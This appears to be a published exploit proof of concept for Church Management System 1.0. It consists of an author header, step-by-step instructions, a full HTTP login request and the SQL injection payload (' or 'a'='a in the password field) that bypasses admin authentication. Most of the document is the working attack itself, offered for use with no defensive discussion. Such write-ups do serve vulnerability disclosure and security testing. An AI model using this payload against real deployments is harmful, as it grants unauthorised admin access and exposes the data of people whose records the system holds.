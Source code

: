     # Exploit Title: Church Management System 1.0 - 'password' SQL Injection (Authentication Bypass)
    # Date: 07/03/2021
    # Exploit Author: Murat DEMIRCI (@butterflyhunt3r)
    # Vendor Homepage: https://www.sourcecodester.com
    # Software Link: https://www.sourcecodester.com/php/11206/church-management-system.html
    # Version: 1.0
    # Tested on: Windows 10
    # Description : The admin login of this app is vulnerable to sql injection login bypass. Anyone can bypass admin login authentication.

    # Proof of Concept :

    1-Go to http://target.com/cman/admin
    2-Write the following payload to username and admin parameter and click login.

    ######################## REQUEST ###############################

    POST /cman/admin/index.php HTTP/1.1
    Host: localhost
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:89.0) Gecko/20100101 Firefox/89.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 51
    Origin: http://localhost
    Connection: close
    Referer: http://localhost/cman/admin/index.php
    Cookie: PHPSESSID=cne5l4cs93krjqobput7nv7sjc
    Upgrade-Insecure-Requests: 1

    username=test&password=%27+or+%27a%27%3D%27a&login=

    ################################################################

    PAYLOAD:

    # username : test
    # password : ' or 'a'='a